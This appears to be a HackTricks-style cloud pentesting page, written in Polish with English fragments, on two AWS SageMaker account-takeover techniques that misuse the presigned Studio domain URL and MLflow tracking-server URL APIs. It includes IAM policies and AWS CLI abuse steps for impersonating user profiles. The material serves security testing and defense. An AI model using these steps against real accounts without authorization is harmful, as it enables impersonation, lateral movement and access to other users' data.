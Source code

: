 # AWS - SageMaker Nieautoryzowany dostęp

{{#include ../../../../banners/hacktricks-training.md}}

## SageMaker Studio - Przejęcie konta poprzez CreatePresignedDomainUrl (podszycie się pod dowolny UserProfile)

### Opis
Tożsamość z uprawnieniem do wywołania `sagemaker:CreatePresignedDomainUrl` na docelowym Studio `UserProfile` może wygenerować URL logowania, który uwierzytelnia bezpośrednio do SageMaker Studio jako ten profil. Daje to przeglądarce atakującego sesję Studio, która dziedziczy uprawnienia `ExecutionRole` profilu oraz pełny dostęp do katalogu domowego i aplikacji profilu opartych na EFS. Nie jest wymagane `iam:PassRole` ani dostęp do konsoli.

### Wymagania
- SageMaker Studio `Domain` i docelowy `UserProfile` w jego obrębie.
- Principal atakującego musi mieć `sagemaker:CreatePresignedDomainUrl` na docelowym `UserProfile` (na poziomie zasobu) lub `*`.

Minimal policy example (scoped to one UserProfile):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedDomainUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:user-profile/<domain-id>/<user-profile-name>"
}
]
}
```
### Kroki nadużycia

1) Wyenumeruj Studio Domain i UserProfiles, które możesz zaatakować
```bash
DOM=$(aws sagemaker list-domains --query 'Domains[0].DomainId' --output text)
aws sagemaker list-user-profiles --domain-id-equals $DOM
TARGET_USER=<UserProfileName>
```
2) Wygeneruj presigned URL (domyślnie ważny przez ~5 minut)
```bash
aws sagemaker create-presigned-domain-url \
--domain-id $DOM \
--user-profile-name $TARGET_USER \
--query AuthorizedUrl --output text
```
3) Otwórz zwrócony URL w przeglądarce, aby zalogować się do Studio jako docelowy użytkownik. W terminalu Jupyter w Studio zweryfikuj efektywną tożsamość:
```bash
aws sts get-caller-identity
```
Uwagi:
- `--landing-uri` można pominąć. Niektóre wartości (np. `app:JupyterLab:/lab`) mogą być odrzucone w zależności od wariantu/wersji Studio; domyślne ustawienia zazwyczaj przekierowują do strony głównej Studio, a następnie do Jupyter.
- Org policies/VPC endpoint restrictions mogą nadal blokować dostęp sieciowy; token minting nie wymaga logowania do konsoli ani `iam:PassRole`.

### Wpływ
- Ruch boczny i eskalacja uprawnień poprzez przyjęcie dowolnego Studio `UserProfile`, którego ARN jest dozwolony, dziedzicząc jego `ExecutionRole` oraz system plików/aplikacje.

### Dowody (z kontrolowanego testu)
- Mając tylko `sagemaker:CreatePresignedDomainUrl` na docelowym `UserProfile`, rola atakującego pomyślnie zwróciła `AuthorizedUrl` podobny do:
```
https://studio-d-xxxxxxxxxxxx.studio.<region>.sagemaker.aws/auth?token=eyJhbGciOi...
```
- Bezpośrednie żądanie HTTP zwraca przekierowanie (HTTP 302) do Studio, potwierdzając, że URL jest ważny i aktywny do momentu wygaśnięcia.


## SageMaker MLflow Tracking Server - ATO przez CreatePresignedMlflowTrackingServerUrl

### Opis
Tożsamość mająca uprawnienie do wywołania `sagemaker:CreatePresignedMlflowTrackingServerUrl` dla docelowego SageMaker MLflow Tracking Server może wygenerować jednorazowy presigned URL, który uwierzytelnia się bezpośrednio w zarządzanym MLflow UI tego serwera. Zapewnia to taki sam dostęp, jaki miałby prawidłowy użytkownik do serwera (wyświetlanie/tworzenie eksperymentów i runs oraz pobieranie/wysyłanie artefaktów w magazynie artefaktów S3 serwera) bez dostępu do konsoli lub `iam:PassRole`.

### Wymagania
- SageMaker MLflow Tracking Server w koncie/regionie oraz jego nazwa.
- Podmiot atakujący potrzebuje uprawnienia `sagemaker:CreatePresignedMlflowTrackingServerUrl` na docelowym zasobie MLflow Tracking Server (lub `*`).

Minimalny przykład polityki (ograniczony do jednego Tracking Servera):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedMlflowTrackingServerUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:mlflow-tracking-server/<tracking-server-name>"
}
]
}
```
### Kroki nadużycia

1) Enumerate MLflow Tracking Servers you can target i wybierz jedną nazwę
```bash
aws sagemaker list-mlflow-tracking-servers \
--query 'TrackingServerSummaries[].{Name:TrackingServerName,Status:TrackingServerStatus}'
TS_NAME=<tracking-server-name>
```
2) Wygeneruj presigned MLflow UI URL (ważny przez krótki czas)
```bash
aws sagemaker create-presigned-mlflow-tracking-server-url \
--tracking-server-name "$TS_NAME" \
--expires-in-seconds 300 \
--session-expiration-duration-in-seconds 1800 \
--query AuthorizedUrl --output text
```
3) Otwórz zwrócony URL w przeglądarce, aby uzyskać dostęp do MLflow UI jako uwierzytelniony użytkownik dla tego Tracking Server.

Notes:
- Tracking Server musi być w stanie gotowości (np. `Created/Active`). Jeśli jest nadal w stanie `Creating`, wywołanie zostanie odrzucone.
- The presigned URL jest jednorazowy i krótkotrwały; wygeneruj nowy, gdy będzie potrzebny.

### Wpływ
- Bezpośredni dostęp do zarządzanego MLflow UI dla docelowego Tracking Server, umożliwiający przeglądanie i modyfikację experiments/runs oraz pobieranie lub przesyłanie artifacts przechowywanych w skonfigurowanym S3 artifact store serwera, zgodnie z uprawnieniami wymuszonymi przez konfigurację serwera.

{{#include ../../../../banners/hacktricks-training.md}}

